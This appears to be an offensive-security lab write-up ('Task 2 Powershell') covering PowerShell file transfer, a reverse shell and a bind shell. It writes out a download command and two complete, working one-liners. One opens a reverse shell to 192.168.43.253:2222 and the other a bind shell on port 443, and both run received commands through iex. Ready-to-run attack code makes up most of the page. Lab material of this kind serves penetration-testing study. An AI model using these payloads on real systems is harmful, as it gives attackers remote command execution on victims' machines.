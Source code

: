 # Task 2 Powershell

### **Powershell File Transfers**

* Create a file to be transfered

![](assets/1_powershell.JPG)

* Start python server

![](assets/2_powershell.JPG)

* Run below command

```text
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

![](assets/3_powershell.JPG)

### Powershell Reverse Shell

* Run the listener

![](assets/1_powershell_reverse_shell.JPG)

* Run the command in cmd

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.43.253',2222);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](assets/2_powershell_reverse_shell.JPG)

* We get the shell

![](assets/3_powershell_reverse_shell.JPG)

### Powershell Bind shell

![](assets/1_bind_shell_powershell.JPG)

```text
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

![](assets/2_bind_shell_powershell.JPG)

